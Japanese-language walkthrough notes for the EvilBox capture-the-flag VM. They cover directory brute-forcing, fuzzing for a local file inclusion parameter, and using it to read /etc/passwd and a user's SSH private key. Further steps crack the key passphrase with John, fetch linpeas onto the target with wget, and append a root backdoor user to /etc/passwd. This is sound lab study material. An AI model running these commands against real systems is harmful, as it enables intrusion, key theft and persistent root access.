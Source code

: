 ## EvilBox(tryHackMe2と似ている) 653~
### ポートスキャンまでは同じ
- 22, 80

### Webサイトを見る
- サイトを見ても単なるApacheのサイト

### Gobuster
- `gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt -x html,txt,php`
  - secretという怪しいディレクトリがある
- `gobuster dir -u $URL/secret/ -w /usr/share/wordlists/dirb/common.txt -x html,txt,php`
  - 上の`$URL`は`"http://$IP/secret/"`でもいい
  - `evil.php`という怪しいファイルがある
  - サイトを見てみる

### ローカルファイルインクルード攻撃ができないかチェック
- evil.phpに以下のコードができれば、リンクからコマンドを入力できる。　['page']の部分に正しい単語を見つけてこれば使える
```php
<?php
  $page= $_GET['page'];
  if ($page)
      include $page;
?>
```
- 使えるかどうかわからないので、wfuzzを使ってチェックする
### WFuzz
- `wfuzz -u "$URL/secret/evil.php?FUZZ=../../../../etc/passwd" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hw 0`
  - FUZZの部分が順に入れ替わる
  - ここでは`command`が当てはまったのでローカルファイルインクルード攻撃ができる

### /etc/passwdをみる
- ウェブサイトから
- `view-source:http://192.168.56.110/secret/evil.php?command=/etc/passwd`
- ユーザのroot,mowreeが/bin/bashが使えるのがわかる
### 暗号鍵を取得する
- mowreeの暗号鍵を取得する
- `view-source:http://192.168.56.110/secret/evil.php?command=/home/mowree/.ssh/id_rsa`
  - ターゲットサーバの中のフォルダをブラウザから見る
  - 暗号鍵はコピー、コマンド`cat > id_rsa`でペーストしてファイルを作っておく


- `chmod 700 id_rsa`
### sshするが失敗する
- パスフレーズが設定されていて失敗する
### 形式を変える
- sedコマンドはPython2系のコマンドをPython3系に書き換えている特殊なもの
- john the ripperで使えるようにフォーマットを変える、うまく変換できるかまず確認してみる
  - `sed -e 's/decodestring/decodebytes/g' /usr/share/john/ssh2john.py | python3 - id_rsa`
- pass_hash.txtを作る
  - `sed -e 's/decodestring/decodebytes/g' /usr/share/john/ssh2john.py | python3 - id_rsa > pass_hash.txt` 
### パスフレーズを解読
- `john --wordlist=/usr/share/wordlists/rockyou.txt pass_hash.txt`
- もしエラーになったら、ファイルが間違っているか、過去に一度解いているため以下のコマンドで過去のパスワードがわかる
  - `john --show 過去に使った暗号ファイル`
### ssh
- `ssh mowree@$IP -i id_rsa`
  - -i:暗号鍵のファイルを指定するオプション
### Linpeasを使う
- Linpeasはルート権限昇格の手がかりを一覧にしてくれるコマンド
- Pythonのサーバで転送する
  - ParrotOS側のLinpeasを置いてあるフォルダで`sudo python3 -m http.server 8080`を入力する
  - ターゲットサーバ側で`wget http://192.168.56.102:8080/linpeas.sh`と入力する。注意するのはIPアドレスがParrotOS側であること
  - ファイルが使えるようにする `chmod +x linpeas.sh`
- Linpeasを使うと`/etc/passwd`が書き換えれることがわかる
  - `./linpeas.sh > output.txt`
  - `cat output.txt`  
### バックドアを仕込む
- passwdファイルに自分のユーザ(root権限を持つ)を書き込んで、いつでも出入りできるようにする
- パスワードを作成する
  - `openssl passwd -1 -salt usersalt`
  - 自分で適当にpasswordを入れる、ここでは`pass`としておく
  - パスワードをコピーしておく
- /etc/passwdに書き込む
  - `>>`は追記なので注意 
  - `echo 'eviluser:ペースト:0:0:root:/root:/bin/bash' >> /etc/passwd`
### フラグの取得
- ユーザを切り替える
  - `su eviluser`
  - パスワードの入力
- `cat /root/root.txt` 
## 初めからする時に削除するもの
- mowreeのhome、user.txt以外は削除
- ParrotユーザのEvilBoxフォルダの中身も削除
- passwdの最終行も削除
  - `sed -e '$d' /etc/passwd`
  - `sed -i -e '$d' /etc/passwd`
